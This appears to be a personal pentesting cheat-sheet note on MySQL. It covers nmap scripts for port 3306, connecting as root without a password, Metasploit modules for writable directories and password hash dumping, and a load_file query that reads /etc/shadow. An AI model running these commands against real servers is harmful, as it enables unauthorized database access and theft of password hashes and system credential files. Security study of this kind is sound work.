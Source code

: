 ```yaml
---
up: "[[SQL]]"
tools:
  - "[[Metasploit]]"
---
```


# MySQL - Introduction

Port 3306 is commonly [[MySQL]] default one.

Nmap script:

```bash
nmap -sV -p 3306 --script=mysql-empty-password
nmap -sV -p 3306 --script=mysql-info
```

To connect:

```bash
mysql -h <ip> -u root
> show databases;
> use <db>;
> select * from <table>;
```

Using [[Metasploit]]:

```bash
msf5> use auxiliary/scanner/mysql/mysql_writable_dirs
msf5> use auxiliary/scanner/mysql/mysql_hashdump
```

If interesting directories are readable:

```bash
mysql> select load_file("/etc/shadow"); 
```
